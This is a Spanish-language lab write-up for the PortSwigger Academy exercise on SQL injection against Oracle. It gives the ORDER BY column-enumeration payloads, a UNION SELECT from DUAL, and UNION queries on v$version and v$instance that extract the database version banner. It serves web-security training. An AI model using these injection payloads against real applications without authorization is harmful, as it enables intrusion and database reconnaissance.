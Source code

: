 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 7"
date = "2021-11-04"
description = "Lab: SQL injection attack, querying the database type and version on Oracle"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, querying the database type and version on Oracle

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer la version de Oracle especificamente algo sobre este string `Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production`

## Reconocimiento

Ya que sabemos que el gestor es Oracle, se utilizaran payloads de Oracle y la manera de extraer los datos es muy diferente, siguiendo los pasos anteriores tocara enumerar columnas

###  Payloads

#### Detectar columnas

```sql
Pets' order by 1--
Pets' order by 2--
Pets' order by 3-- //Genera error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude. En este caso `Oracle` como se nota no se puede enviar un select sin el valor from, ya que es algo propio de Oracle que es una tabla especial.

```sql
Pets' union select 'test','test' from DUAL--
```
### Recuperar version

Ahora recuperar la version, las consultas utilizadas para esto en `Oracle` son las siguientes:

```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```
La inyeccion quedaria de la siguiente manera:

```sql
Pets' union SELECT banner,null FROM v$version--
Pets' union SELECT version,null FROM v$instance--
```
![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)